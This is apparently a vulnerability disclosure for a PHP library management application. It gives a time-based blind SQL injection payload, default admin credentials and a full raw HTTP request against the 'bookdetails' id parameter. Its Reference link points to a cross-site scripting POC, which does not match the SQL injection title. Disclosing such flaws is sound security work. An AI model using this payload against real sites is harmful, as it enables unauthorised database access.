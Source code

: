 #### Title: Library Management System with QR code Attendance 1.0 SQL Injection
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/POC.md

#### Description：
##### The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Library Management System with QR code Attendance does not filter the content correctly at the "bookdetails" id parameter, resulting in the generation of SQL injection.

#### Payload used:
`' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`

#### POC

1.  Login into the CMS.
Admin Default Access:

Username: admin

Password: admin


2. http://localhost/LMS/librarian/bookdetails.php?id=191


3. Put sleep(5) payload (`' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`)

4. `http://localhost:80/LMS/librarian/bookdetails.php?id=' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`



5. code
```
GET /LMS/librarian/bookdetails.php?id=%27%20AND%20(SELECT%209198%20FROM%20(SELECT(SLEEP(5)))iqZA)--%20PbtB HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close
```

